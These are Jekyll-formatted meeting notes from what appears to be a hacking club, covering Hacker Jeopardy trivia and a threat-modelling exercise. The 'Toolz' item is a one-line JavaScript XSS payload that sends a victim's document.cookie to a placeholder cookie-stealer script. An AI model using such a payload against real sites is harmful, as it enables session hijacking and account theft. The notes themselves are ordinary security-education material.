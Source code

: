 ```yaml
---
layout: post
title:  "Meeting Notes for Oct. 31, 2019"
date:   2019-10-31
categories: notes
author: scrypy
---
```

# Meeting Notes Oct. 31, 2019:

## Hacker Jeopardy -> @scrypy
- **Newz:**
  - This famous hacking group is being sued by facebook for hacking into WhatsApp to spy on government officials and journalists. (NSOGroup)
- **Toolz:**
  - `document.location='http://127.0.0.1/cookiestealer.php?c='+document.cookie;`
- **Knawledge:**
  - this is how you determine the number of IPs available in a network from the netmas:
  https://community.spiceworks.com/networking/articles/2491-how-to-calculate-a-subnet-mask

## Hack the Planet! -> @scrypy
- Practice walking through a threat/risk analysis scenario by building an attack/defense plan for taking over the world!

<br>
@scrypy

